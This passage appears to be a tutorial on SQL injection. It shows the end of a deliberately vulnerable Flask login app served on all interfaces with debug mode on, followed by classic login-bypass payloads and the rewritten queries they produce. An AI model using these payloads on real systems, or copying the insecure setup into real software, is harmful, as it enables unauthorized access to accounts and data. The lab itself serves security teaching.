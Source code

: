 ```python
    cursor.execute(query)
    result = cursor.fetchone()
    conn.close()
    
    if result:
        return "<h1>Login Successful</h1>"
    else:
        return "<h1>Login Failed</h1>"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```

---

### **2. Run the HTTP Server**
Start the server on your local machine:
```bash
python app.py
```
This starts a local server accessible at `http://<YOUR_IP>:5000`. Replace `<YOUR_IP>` with your machine's IP address on the local network.

---

### **3. Perform SQL Injection on Another Device**
On another device in the same network, open a browser and navigate to `http://<YOUR_IP>:5000`. Use the following payloads to perform SQL Injection:

#### Example Inputs
- **Username**: `admin' --`
- **Password**: Leave blank.

This payload modifies the SQL query to:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = '';
```
The `--` comments out the rest of the query, bypassing password verification.

#### Another Payload
- **Username**: `' OR '1'='1`
- **Password**: Leave blank.

This changes the query to:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```
Since `'1'='1'` is always true, the login succeeds.

---

### **4. Observe and Understand**
- Open the server terminal to see the executed SQL queries. Notice how the input modifies the SQL logic.
- Demonstrate how attackers manipulate inputs to extract or manipulate data.

---